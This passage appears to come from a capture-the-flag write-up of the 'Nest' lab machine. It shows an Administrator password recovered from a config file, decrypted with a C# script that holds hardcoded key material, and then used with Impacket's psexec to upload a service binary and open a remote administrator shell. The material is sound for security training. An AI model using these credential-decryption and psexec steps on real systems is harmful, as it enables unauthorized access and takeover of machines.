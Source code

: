 ```

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
```
We've got a `conf` file - that's always interesting. Let's take a look:
```
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
Hah! We've got `Administrator`'s encrypted password, and it looks like it's encrypted in the same format as the one we found for `Carl` earlier (we can easily check by counting the number of characters with `wc -c <encrypted password`).
  
  
Let's fix our script to contain `Administrator`'s encrypted password:
```
kali@kali:~/htb/boxes/nest/hqk$ cat decrypt.cs 
using System;
//using CascCrypto;
using System.IO;
using System.Security.Cryptography;
using System.Text;

class HelloWorld {
  static void Main() {
    string str = string.Empty;
    //Console.WriteLine("Hello World!");
    string Pwd = "yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=";
    string EncryptedString = Pwd;
    str = DecryptString(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
    Console.WriteLine(str);
  }
(..snip..)
```
Use `mono` again to compile and run the script:
```
kali@kali:~/htb/boxes/nest/hqk$ mcs -out:decrypt.exe decrypt.cs 
kali@kali:~/htb/boxes/nest/hqk$ mono decrypt.exe
XtH4nkS4Pl4y1nGX
```
Awesomesauce.

### Shell as Administrator
Since we now have `Administrator`, we can try `psexec`, since `Administrator` very likely has the write access on the SMB shares that `psexec` needs to open a shell:
```
kali@kali:~/htb/boxes/nest/hqk$ sudo psexec.py administrator:XtH4nkS4Pl4y1nGX@nest.htb
Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on nest.htb.....
[*] Found writable share ADMIN$
[*] Uploading file hyqrdzFp.exe
[*] Opening SVCManager on nest.htb.....
[*] Creating service Rumw on nest.htb.....
[*] Starting service Rumw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```